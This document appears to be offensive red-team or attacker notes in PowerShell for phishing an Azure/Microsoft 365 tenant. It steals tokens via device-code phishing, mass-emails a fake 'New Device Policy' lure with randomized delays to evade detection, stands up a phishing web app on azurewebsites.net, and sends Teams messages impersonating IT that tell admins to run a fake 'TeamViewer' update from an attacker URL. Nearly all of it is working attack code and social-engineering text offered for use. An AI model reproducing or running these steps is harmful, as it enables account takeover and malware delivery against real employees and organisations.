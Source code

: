 
## Automate Internal 
### ForEach in users, wait %random in 3 minutes, send one
### Clear Tokens if needed
```powershell
Clear-Token -Token All
```

### Get Device COde to Phish IT Admin
```powershell
Get-AzureToken -Client Graph
```

### Set Variables
```powershell
$app = "OneDriveBusinessSSO"
$targetList = Get-Content .\users.txt
$subject = 'New Device Policy'
$msg = "<div>Hi!<br/> We have updated our device usage and privacy policy. Please sign new contract agreement for your device to continue accessing company resources.  <a href='https://office.com'></a>. <br/><br/>Your document is  <a href='{1}'>ready</a> <b></b>.<br/><br/> Click here to view: <b>{0}</b>.</div>"

# Loop through the target list
foreach ($target in $targetList) {
  # Set a random sleep duration between 2.5 and 7.5 minutes
  $sleepSeconds = Get-Random -Minimum 150 -Maximum 451

  # Set up the email message with the payload link
  $url = "http://$app.azurewebsites.net"
  $message = $msg
  # Send the email
  Send-AADIntOutlookMessage -AccessToken $OutlookToken.access_token -Recipient $target -Subject $subject -Message $message

  # Wait for the random sleep duration
  Start-Sleep -Seconds $sleepSeconds
}
```

 
## Teams Payload From Intune Admin to IT / HVT
### $tenant = "shrine.cloud"
```powershell
$app2 = "TeamViewerSSO"
$url = "http://$app2.azurewebsites.net"
$rg = "Phishing"
$payload = $path
cd $payload
az webapp up -g $rg -n $app2
$target = 'intuneadmin@shrine.cloud'
$target2 = 'it@shrine.cloud'
$target3 = 'cloudadmin@shrine.cloud'

# Send a TeamViewer Update to user
RefreshTo-MSTeamsToken -domain $tenant -refreshToken $response.refresh_token
$MSTeamsToken.access_Token

Send-AADIntTeamsMessage -AccessToken $MSTeamsToken.access_Token -Recipients $target -Message "Hey, sorry to bother, we're having everyone update the remote management software on their workstation. Please run this when you get a chance shouldn't take long: $url"
```